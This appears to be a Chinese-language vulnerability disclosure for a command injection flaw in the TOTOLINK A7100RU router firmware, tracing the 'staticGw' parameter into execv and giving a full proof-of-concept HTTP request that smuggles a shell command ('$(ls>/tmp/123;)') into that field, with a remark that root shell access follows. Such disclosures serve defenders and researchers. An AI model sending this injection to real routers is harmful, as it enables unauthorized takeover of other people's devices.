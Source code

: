# TOTOlink A7100RU(V7.4cu.2313_B20191024)路由器存在命令注入漏洞

## 写在前面

厂商信息：http://totolink.net/

固件下载地址：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1.影响版本

![img](img/wps4.jpg) 

 

图1为固件版本信息

## 2.漏洞细节

![image-20220721132035379](img/image-20220721132035379.png)

程序通过获取staticGw参数中的内容传递给v8，之后将v8带入到Uci_Set_Str_By_Idx函数中

![image-20220721132054649](img/image-20220721132054649.png)

在Uci_Set_Str_By_Idx函数中，程序将a5带入到Uci_Set_Str函数中

![image-20220721132112686](img/image-20220721132112686.png)

在Uci_Set_Str函数中，通过snprintf函数，将a4匹配到的内容格式化进v11，之后将v11带入cstesystem函数中

![image-20220721132128313](img/image-20220721132128313.png)

函数直接将用户输入内容带入到execv函数中，存在命令注入漏洞

## POC

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setWanIeCfg",
"staticGw":"1$(ls>/tmp/123;)"}
```

复现结果如下

![img](img/wps5.jpg) 

 

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

![img](img/wps6.jpg) 

 